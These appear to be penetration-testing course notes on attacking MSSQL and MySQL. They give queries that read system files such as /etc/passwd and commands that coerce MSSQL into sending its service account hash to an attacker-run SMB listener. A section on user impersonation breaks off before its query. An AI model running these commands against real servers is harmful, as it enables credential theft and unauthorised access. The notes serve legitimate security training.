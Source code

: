 

# Read Local Files


### MSSQL

By default, MSSQL allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

```
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

### MYSQL

As we previously mentioned, by default a MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:

`mysql> select LOAD_FILE("/etc/passwd");`




# Capture MSSQL Service Hash


In the Attacking SMB section, we discussed that we could create a fake SMB server to steal a hash using xp_subdirs or xp_dirtree undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories 

`$ sudo responder -I tun0`

`$ sudo impacket-smbserver share ./ -smb2support`

```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```






# Impersonate Existing Users with MSSQL

SQL Server has a special permission, named IMPERSONATE, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends.


First, we need to identify users that we can impersonate. Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate
